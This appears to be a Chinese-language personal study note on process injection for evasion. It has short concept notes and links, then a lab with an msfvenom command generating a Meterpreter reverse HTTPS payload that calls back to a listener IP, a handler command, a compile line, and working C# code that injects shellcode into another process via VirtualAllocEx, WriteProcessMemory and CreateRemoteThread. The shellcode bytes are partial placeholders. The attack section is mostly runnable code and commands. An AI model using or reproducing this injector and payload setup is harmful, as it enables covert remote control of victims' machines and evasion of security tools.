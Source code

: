 ```yaml
---
title: 进程注入与迁移
categories:
- evasion
tags:
- evasion
---
```


## 进程和线程的区别
https://segmentfault.com/a/1190000039297639

进程，线程
（公司）（人）
卖食品、饮料、医疗、交通、房地产公司
进程里有多个线程，就像一个公司里有多个员工

直接反弹shell的缺点：
1. 
2. 
进程注入的目的

## 进程的权限控制Integrity Level
https://blog.csdn.net/vlily/article/details/47338327

## plist查看进程中的线程
https://docs.microsoft.com/en-us/sysinternals/downloads/pslist

## 为什么直接杀死线程是不好的
https://blog.csdn.net/shenya1314/article/details/59057361

## 小实验
c sharp + shellcode编译，注入进程explorer.exe

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.123.138 lport=2333 -f csharp

handler -H 192.168.123.138 -P 2333 -p windows/x64/meterpreter/reverse_https

"C:\Program Files (x86)\Microsoft Visual Studio\2019\Enterprise\MSBuild\Current\Bin\Roslyn\csc.exe" /unsafe /platform:x64 1.cs

```
using System;
using System.Runtime.InteropServices;
namespace Inject
{
	class Program
	{
		[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
		static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
		processId);
		[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
		static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
		dwSize, uint flAllocationType, uint flProtect);
		[DllImport("kernel32.dll")]
		static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
		byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
		[DllImport("kernel32.dll")]
		static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
		lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
		dwCreationFlags, IntPtr lpThreadId);
		static void Main(string[] args)
		{
			IntPtr hProcess = OpenProcess(0x001F0FFF, false, 1668);
			IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
			byte[] buf = new byte[756] {
===replace this===
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x65,0x48,0x8b,0x52,0,0x01,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5
===replace this===
			};
			IntPtr outSize;
			WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
			IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr,IntPtr.Zero, 0, IntPtr.Zero);
		}
	}
}
```